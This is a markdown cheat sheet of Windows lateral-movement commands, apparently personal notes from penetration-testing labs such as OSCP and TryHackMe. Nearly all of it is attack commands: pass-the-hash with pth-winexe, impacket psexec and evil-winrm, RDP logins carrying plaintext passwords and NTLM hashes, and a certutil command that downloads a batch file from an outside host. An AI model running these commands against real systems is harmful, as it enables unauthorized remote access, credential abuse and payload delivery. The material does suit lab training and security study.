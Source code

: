 # windows

## pass the hash
```
pth-winexe -U offsec%aad3b435b51404eeaad3b435b51404ee:2892d26cdf84d7a70e2eb3b9f05c425e //10.11.0.22 cmd
```

## psexec
```
./psexec.py [[domain/]username[:password]@]<targetName or address>
./psexec.py -hashes <LM:NT> administrator@10.10.10.103 #Pass-the-Hash
psexec \\192.168.122.66 -u Administrator -p 123456Ww
psexec \\192.168.122.66 -u Administrator -p q23q34t34twd3w34t34wtw34t # Use pass the hash
```

```
python3 /usr/share/doc/python3-impacket/examples/psexec.py  -hashes "af636dea707fa9cf431562c90e8a4044:af636dea707fa9cf431562c90e8a4044" Administrator@10.11.1.222
```


## evil-winrm

```
evil-winrm -i 10.11.1.221 -u 'john' -p 'easyas123'

evil-winrm -i 192.168.140.10 -u 'offsec' -H '2892d26cdf84d7a70e2eb3b9f05c425e'                              # pass the hash
```


## rdp
```
xfreerdp /u:offsec /p:'lab' /v:192.168.140.10 +clipboard 
xfreerdp /u:Administrator /pth:'' /v:10.11.1.221 +clipboard 

xfreerdp /v:thmwrk1.za.tryhackme.loc /u:t2_henry.harvey /p:'max.123456'

xfreerdp /u:i.wood /p:'7@@$if*7l0E!9zFs' /w:600 /h:500 /v:10.10.120.102

rdesktop -d <domain> -u <username> -p <password> <IP>
```


# linux



pth-winexe -U offsec%aad3b435b51404eeaad3b435b51404ee:2892d26cdf84d7a70e2eb3b9f05c425e //192.168.140.10 cmd


python3 /usr/share/doc/python3-impacket/examples/psexec.py   corp\jeff_admin@192.168.166.10

certutil -urlcache -split -f "http://192.168.119.166/launcher.bat" launcher.bat



